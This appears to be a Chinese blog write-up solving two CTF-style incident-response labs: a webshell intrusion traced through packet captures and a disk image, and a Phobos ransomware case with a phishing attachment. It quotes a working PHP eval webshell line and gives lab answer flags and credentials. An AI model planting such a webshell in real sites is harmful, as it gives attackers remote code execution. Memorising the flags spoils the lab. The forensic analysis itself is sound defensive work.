<!-- generated-by: obsidian_git_blog_pipeline -->

## emerency
```plain
有一台客户的服务器被黑客入侵了，好在安全工程师开启了流量包，请你完成这些题目，提升服务器的安全性吧！

用户名：Administrator
密码：Qsnctf2025

链接: https://pan.baidu.com/s/1LxYbnbYPpzTj0eL1yRKxiA 提取码: db5g
压缩包密码：349df0a5061cfd47e375c8dba9c773d7

靶场文件传输参考：https://mp.weixin.qq.com/s/_A3HiCdo6luVc6K7Ulmzpg
```

### 任务1
```plain
任务名称：提交黑客的IP地址
任务分数：2.00
任务类型：静态Flag
提交格式为flag{0.0.0.0}
```

简单分析下流量包附件 流量捕获.pcapng

通过http协议判断出 



跳板机 10.0.100.69    受害机 10.0.100.13

这题答案就是跳板机 10.0.100.69

但是从其和受害机同一个网段下能看出其为跳板机，C2机还需进一步分析

```plain
flag{10.0.100.69}
```

### 任务2
```plain
任务名称：提交黑客初始连接的PHP一句话木马密码
任务分数：2.00
任务类型：静态Flag
提交格式为flag{abc}
```

追踪http即可看到明显的注入痕迹



```plain
flag{shell}
```

### 任务3
```plain
任务名称：提交黑客通过初始连接一句话木马后创建新的一句话木马文件的MD5
任务分数：2.00
任务类型：静态Flag
提交格式为flag{md5}
```

上面写入木马后开始 POST 访问 `/cache/chche_file/configs.cache.php`

但是没有写入新的一句话木马



直到流48 这个流里看到其多了一个参数



查看木马发现其核心代码

```plain
$D = base64_decode(substr($_POST["b87d2cf0e414ca"],2));
```

解出来是文件目录, 再分析代码得知其目的是查看文件目录下的文件和文件夹

但依然不是写入木马的内容

继续往后找, 发现 流65 访问的文件变成了 shell.php



这个应该就是新的木马文件, 需要往前找



流64第一次出现了 shell.php, 往前找

再流63发现写入木马

其增加了一个参数作为写入内容



前一个参数为文件路径，解密代码如上，得到路径`C:/phpstudy_pro/WWW/shell.php`



第二个为写入内容，需要从16进制转换字符`<?php @eval($_POST["qsnctf_2025_lab"]); ?>`



详细检查代码后可以得知其去除了换行符

但是创建shell.php后，获取其md5值 尝试后发现不是答案

感觉继续看流量还是太慢了，先上靶机看一眼具体文件



没有发现shell.php, 反而发现`.config.php`另一个木马文件

可能shell.php被删除了

不过附件也给了镜像，用火眼分析

然后直接爆搜，找到被删除的php文件，可以看到内容和`shell.php`一模一样



计算哈希，需要转小写



```plain
flag{91a29f36879b024d661851b7765f3969}
```

### 任务4
```plain
任务名称：提交黑客创建的不死马的密码
任务分数：2.00
任务类型：静态Flag
提交格式为flag{md5}
```

不死马就是最后能看到的木马

见上题`.config.php`

```plain
flag{4aad625950d058c24711560e5f8445b9}
```

### 任务5
```plain
任务名称：提交黑客上传的恶意文件（远程控制木马）的名称
任务分数：2.00
任务类型：静态Flag
提交格式为flag{abc.exe}
```

文件系统和取证没找到远控木马，查看外联情况无果

还得继续分析流量包

因为已经到了上传恶意文件的阶段了，因此上传的内容较大，直接大小降序



发现一个 POST shell.php的流量，检查后发现不是

应该是在访问不死马 .config.php 时上传的，继续找



就在后面



追踪流能发现内容很大，先查看木马部分

```plain
#写入路径
$f = base64_decode(substr($_POST["me3bb5c75c1d85"],2));
#写入内容
$c = $_POST["v85b25cf4a3151"];
```

通过写入路径得到文件名



```plain
flag{shell.exe}
```

### 任务6
```plain
任务名称：提交黑客上传的恶意文件（远程控制木马）的MD5
任务分数：2.00
任务类型：静态Flag
提交格式为flag{md5}
```

接上题，把后面的16进制内容还原出来



这里直接一步到位，放进云沙箱分析



可以看到木马与C2地址通信的端口为4444

```plain
flag{0410284ea74b11d26f868ead6aa646e1}
```

### 任务7
```plain
任务名称：提交黑客上传的恶意文件（远程控制木马）的端口
任务分数：2.00
任务类型：静态Flag
提交格式为flag{1234}
```

见上题

```plain
flag{4444}
```

### 任务8
```plain
任务名称：请提交黑客创建用户账户的用户名
任务分数：2.00
任务类型：静态Flag
提交格式为flag{username}
```

这隐藏账户是一点伪装没做啊，直接看到了



```plain
flag{hidden$}
```

### 任务9
```plain
任务名称：请提交黑客创建用户账户的密码
任务分数：2.00
任务类型：静态Flag
提交格式为flag{password}
```

火眼找到密码



```plain
flag{P@ssw0rd123}
```

### 任务10
```plain
任务名称：请提交黑客创建用户账户的时间
任务分数：2.00
任务类型：静态Flag
flag{2025/01/01 01:00:00}
```

通过日志找，从流量信息获得大致攻击事件



在日志里找 用户账户管理 的任务类别

找到创建 hidden$ 隐藏账户的事件



```plain
flag{2025/11/20 16:13:32}
```

## 2700勒索病毒排查
```plain
某公司财务机器某天突然卡顿，任务管理器发现有程序在高占用，后续所有文件都无法打开，且所有文件都变成了.2700结尾的扩展名，目前通过一些特征判断是勒索病毒，比如勒索信以及文件名等，请您上机排查，并根据题目指引进行溯源和数据恢复。

所需工具在C:\Users\Solar\Desktop\工具\目录中

账号：Solar
密码：Solar521

靶机使用说明：https://mp.weixin.qq.com/s/XFisEU5Gdk245cn8jsnlZQ

靶场文件传输参考：https://mp.weixin.qq.com/s/_A3HiCdo6luVc6K7Ulmzpg
```

### 任务1
```plain
任务名称：此勒索家族名称是什么？
任务分数：2.00
任务类型：静态Flag
此勒索家族名称是什么？可访问应急响应.com进行查询，大小写敏感，最终以flag{}提交
```

查看被勒索文件的后缀名，到 www.solarsecurity.cn 查找病毒家族



```plain
flag{Phobos}
```

### 任务2
```plain
任务名称：勒索病毒预留的ID是什么
任务分数：2.00
任务类型：静态Flag
勒索病毒预留的ID是什么(预留ID为勒索组织恢复的凭证)，以flag{}提交，如有多个以&进行连接
```

勒索文件里没有，那就在文件名里





```plain
flag{4A30C4F9-3524}
```

### 任务3
```plain
任务名称：提交开始加密的时间
任务分数：2.00
任务类型：静态Flag
提交开始加密的时间，以flag{2025/1/1 11:11}格式提交
```

通常是文件修改的时间，查看属性发现修改时间相同



```plain
flag{2025/11/19 14:31}
```

### 任务4
```plain
任务名称：提交flag
任务分数：2.00
任务类型：静态Flag
访问：应急响应.com 找到此家族恢复工具进行恢复，提交C:\Users\Solar\Desktop\lSimulation_Desktop_Files\flag.txt文件中的flag
```

应该是打错了文件夹名字Simulation_Desktop_Files 多了个l

找到文件后到 应急响应.com 上下载恢复工具，用qsnctf靶场助手上传到靶机即可







这里是已经用恢复软件恢复好了，然后再通过助手弄下来就行



```plain
flag{6eff1ea09e63423a48288a77d97e0cc6}
```

### 任务5
```plain
任务名称：提交发送邮件的邮箱
任务分数：2.00
任务类型：静态Flag
提交C:\Users\Solar\Desktop\工具\mail 发送邮件的邮箱，以flag{xxx@xxx.com}格式提交
```

打开对应文件夹，可以看到eml文件，这就是邮件的导出文件

用文本查看，通过首部判断 找需要的内容



找到发送邮件的邮箱

```plain
flag{1983929223@qq.com}
```

### 任务6
```plain
任务名称：提交发送邮件的IP
任务分数：2.00
任务类型：静态Flag
提交C:\Users\Solar\Desktop\工具\mail 发送邮件的IP，以flag{x.x.x.x}格式提交
```

同上题



```plain
flag{39.91.141.213}
```

### 任务7
```plain
任务名称：提交钓鱼附件中的C2地址
任务分数：2.00
任务类型：静态Flag
提交钓鱼附件中的C2地址，以flag{x.x.x.x}格式提交
```

eml中最后的附件是经过base64加密的zip文件

用cyberchef解密并下载



解压后发现文件 发票.pdf.exe



将其上传至云沙箱进行分析

发现是恶意下载器，存在两个外联地址



分别查看两个地址，发现一个地址在境外，另一个地址是境内数据中心，那应该就是境外的地址





```plain
flag{182.9.80.123}
```

### 任务8
```plain
任务名称：提交flag
任务分数：2.00
任务类型：静态Flag
部分数据丢失，好在运维之前做了备份，使用C:\Users\Solar\Desktop\工具\diskgenus恢复C:\Users\Solar\Desktop\工具\backup中的备份内：C:\Users\Solar\Desktop\flag.bak文件，提交其flag
```

在backup文件夹中找到镜像文件，通过DiskGenius挂载

在桌面上找到flag.bak 





依旧通过qsnctf靶场助手导出



```plain
flag{92047522e5080bad36eda9d29d5a163e}
```

## 3_idiots
